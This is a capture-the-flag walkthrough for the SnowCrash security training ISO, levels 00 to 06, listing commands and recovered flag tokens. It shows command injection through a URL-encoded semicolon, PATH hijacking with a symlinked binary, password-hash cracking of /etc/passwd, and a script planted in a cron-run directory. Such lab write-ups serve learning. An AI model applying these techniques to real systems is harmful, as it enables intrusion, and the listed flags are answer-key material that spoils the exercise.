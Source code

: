 
Image: `/sgoinfre/goinfre/ISO/SnowCrash.iso`  

## Level00

`ssh -l level00 -p <port> 127.0.0.1`  
```
find / -user flag00 2>/dev/null
strings /usr/sbin/john
```
-> multi decoder  

`ssh -l flag00 -p <port> 127.0.0.1`
```
getflag
```

> `level00`
> `nottoohardhere`

## Level01

```
docker run --rm -it debian:latest
apt-get update && apt-get -y install john
cat <<_EOF > /root/passwd.txt
<paste content of /etc/passwd file>
_EOF
```

> `x24ti5gi3x0ol2eh4esiuxias`
> `abcdefg`

## Level02

```
scp -P <port> level02@localhost:/home/user/level02/level02.pcap /tmp
chmod u+r /tmp/level02.pcap
```
-> wireshark -> follow TCP stream  

> `f2av5il02puano7naaf6adaaf`
> `ft_waNDReL0L`

## Level03

```
strings ~/level03
PATH=/tmp:$PATH
ln -s /bin/getflag /tmp/echo
~/level03
```

> `kooda2puivaav1idi4f57q8iq`

## Level04

```
curl 'localhost:4747?x=a%3Bgetflag'
```

> `qi0maab88jeaj46qoumi7maus`

## Level05

```
cat <<_EOF > /opt/openarenaserver/level05.sh
#!/bin/sh
getflag >/tmp/flag.txt 2>&1
_EOF
watch -n 1 cat /tmp/flag.txt
```
> `ne2searoevaevoem4ov4ar8ap`

## Level06

> `viuaaale9huek52boumoomioc`


